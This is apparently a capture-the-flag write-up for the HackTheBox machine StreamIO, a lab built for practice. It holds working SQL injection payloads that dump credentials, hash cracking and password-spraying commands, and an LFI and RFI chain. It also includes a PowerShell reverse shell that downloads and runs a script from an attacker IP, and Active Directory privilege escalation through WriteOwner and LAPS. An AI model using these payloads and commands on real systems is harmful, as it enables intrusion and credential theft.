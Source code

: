 ## Takeaway
- When determining the number of columns of the result set of previous `SELECT` statement for `UNION SQLi`. It's best the previous result set is empty so that no type-mismatching happens.
	- `nonexisting' union+ select 1,2,3,4,5,6--`

## Metadata
- `nmap` will identify a few potential virtual site being `streamio.htb` and `watch.streamio.htb`. Add them to `/etc/hosts`.
- Navigate to `https://watch.streamio.htb/` to locate the site. Running `feroxbuster -u https://watch.streamio.htb/  -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt  -x "txt,php" -t 10 -k -e -r` will identify a  search page at `https://watch.streamio.htb/search.php` vulnerable to `SQLi`.
	- Searching for `%` will collect all the movies since the backend is potentially running a query like `select * from movies where name like '%query%'`.
	- Runing a `Union` query nonexisting'+union+select+1,2,3,4,5,6--)`will further confirm that it is vulnerable to `SQLi`.
	- ![[Pasted image 20240310131103.png]]
	- Exfiltrate current database with `nonexisting'+union+select+1,db_name(),3,4,5,6--` as `streamio`.![[Pasted image 20240310141337.png]]
	- Exfiltrate current database tables with `nonexisting'+union+select+1,(SELECT+STRING_AGG(name,+',+')+FROM+streamio..sysobjects+WHERE+xtype+%3d+'U'),3,4,5,6--`.![[Pasted image 20240310141505.png]]
	- Exfiltrate columns of `users` table with `nonexisting'+union+select+1,(SELECT+STRING_AGG(name,+',+')+FROM+syscolumns+WHERE+id+%3d+(SELECT+id+FROM+sysobjects+WHERE+name+%3d+'users')),3,4,5,6--`![[Pasted image 20240310141902.png]]
	- Exfiltrate all users that are staff along with there passwords with `nonexisting'+union+select+1,(SELECT+STRING_AGG(concat(username,'%3a',password),+'%0d%0a')+FROM+users),3,4,5,6--` and `cat creds.txt | awk '{print $1""$2}' > creds.txt` to get a organized file.
	- Run `hashcat -m 0 --username creds.txt /usr/share/wordlists/rockyou.txt --force` to obtain potential users.
		- ![[Pasted image 20240310144403.png]]
- Run `cat cracked.txt | awk -F: '{print $1}' > users.txt` and `cat cracked.txt | awk -F: '{print $3}' > passwords.txt` to generate the files for spraying.
	- Spraying against the host directly has no luck but there is a login page at `https://streamio.htb/login.php`.
	- Run `hydra -C spray.txt streamio.htb https-post-form "/login.php:username=^USER^&password=^PASS^:Login failed"` to find valid credential `yoshihide:66boysandgirls..`![[Pasted image 20240310150129.png]]
- After login one is able to visit the previous `unauthorized` page `https://streamio.htb/admin/index.php`.
	-  Use `ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -u https://streamio.htb/admin/index.php?FUZZ= -H 'Cookie: PHPSESSID=plljm5e3lj3tten6m3nlqi1867' -fs 1678` to fuzz for potential `GET` parameter and find `debug` parameter.![[Pasted image 20240310204239.png]]
	- The `debug` parameter has a `LFI` vulnerability.![[Pasted image 20240310204533.png]]
- Exfiltrate `master.php` and `index.php` using php filter to further analyze.
	- `https://streamio.htb/admin/index.php?debug=php://filter/convert.base64-encode/resource=index.php`
	- Same for `master.php`
	- Within `index.php`, `MSSQL Credential`: `db_admin: B1@hx31234567890`![[Pasted image 20240310205620.png]]
	- Looking at `master.php`, one can identify a `RFI`.![[Pasted image 20240310211849.png]]
- As `streamio\yoshihide`, we can use previous found `mssql` credential `db_admin: B1@hx31234567890` to further enumerate users.
	- Run `sqlcmd -U db_admin -P B1@hx31234567890 -q "SELECT concat(username, ':', password) from streamio_backup..users"` to locate more credentials.
	- Run `hashcat -m 0 cred2.txt /usr/share/wordlists/rockyou.txt --username --force` to crack for plaintext passwords.![[Pasted image 20240310230736.png]]
	- The only non-repeating credential is `nikk37:get_dem_girls2@yahoo.com`. Spray using `netexec`, one can identify that new credential is valid and has access to the host using `winrm`.![[Pasted image 20240310231156.png]]
- `winpeas` as `streamio\nikk37` will identify potential `Firefox DBs`.![[Pasted image 20240310232359.png]]
	- Download `logins.json` and `key4.db` at  `C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\profiles\br53rxeg.default-release` and use `firepwd`(https://github.com/lclevy/firepwd) to retrieve credentials.
		- Run `python3 firepwd.py -d ../`![[Pasted image 20240310233700.png]]
		- `JDgodd:JDg0dd1s@d0p3cr3@t0r` seems like promising pair. Run `netexec` to confirm validity.
# Exploitation
## Shell as yoshihide
- Generate a reverse shell payload.
```shell
# No '<?php ?>' since directly passed to eval()
system("powershell.exe -nop -w hidden -c iex(iwr http://10.10.14.23/Windows/nishang/Shells/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.10.14.23 443");
```
- Set up python Web Server at port `123` and send the following request in `burp` to receive a reverse shell as `streamio\yoshihide`.![[Pasted image 20240310212032.png]]
## Shell as nikk37
- Run `evil-winrm -i 10.10.11.158 -u nikk37  -p get_dem_girls2@yahoo.com` to obtain an interactive session.![[Pasted image 20240310234057.png]]
# PrivEsc
- Run bloodhound will identify that `JDGODD` has `WriteOwner` privilege to `CORE STAFF` whose members can read `LAPS` passwords for obtain local administration access.![[Pasted image 20240310234435.png]]
- Load `PowerView` and run following script to add `JDGGOD` to` CORE STAFF`.
```shell
$SecPassword = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('streamio.htb\JDgodd', $SecPassword)
Set-DomainObjectOwner -Credential $Cred -Identity "CORE STAFF" -OwnerIdentity 'JDgodd'
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "CORE STAFF" -PrincipalIdentity 'JDgodd'
Add-DomainGroupMember -Identity 'CORE STAFF' -Members 'JDgodd' -Credential $Cred
Get-DomainGroupMember -Identity 'CORE STAFF'
```
- Adding `10.10.11.158 DC.streamIO.htb` to `/etc/hosts` and rune `netexec ldap 10.10.11.158 -u JDgodd -p JDg0dd1s@d0p3cr3@t0r --kdcHost 10.10.11.158 -M laps` to retrieve local administrator password as `9cL[408pU3CEXV`. ![[Pasted image 20240311001631.png]]![[Pasted image 20240311001828.png]]
- Run `evil-winrm -i 10.10.11.158 -u administrator  -p 9cL[408pU3CEXV`
